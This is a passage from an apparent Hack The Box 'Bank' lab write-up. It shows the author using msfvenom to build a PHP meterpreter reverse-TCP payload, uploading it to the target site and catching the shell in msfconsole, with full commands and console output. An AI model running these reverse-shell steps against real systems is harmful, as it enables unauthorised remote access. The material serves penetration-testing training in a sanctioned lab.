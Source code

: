 ![PageSource.png](PageSource.png)
Now lets generate a reverse php shell with `.htb` extension using msfvenom.

```
Google "php reverse shell meterpreter"
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Bank]
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f raw > exploit.htb
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
```

Then we upload the file to the website and start msfconsole and then execute the php file.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > set AUTORUNSCRIPT post/windows/manage/migrate
AUTORUNSCRIPT => post/windows/manage/migrate
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.2:1234
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Session ID 1 (10.10.14.2:1234 -> 10.10.10.29:35630) processing AutoRunScript 'post/windows/manage/migrate'
[!] SESSION may not be compatible with this module (incompatible session platform: linux)
[*] Running module against bank
[-] Post failed: Rex::Post::Meterpreter::RequestError stdapi_sys_process_attach: Operation failed: The command is not supported by this Meterpreter type (php/linux)
[-] Call stack:
```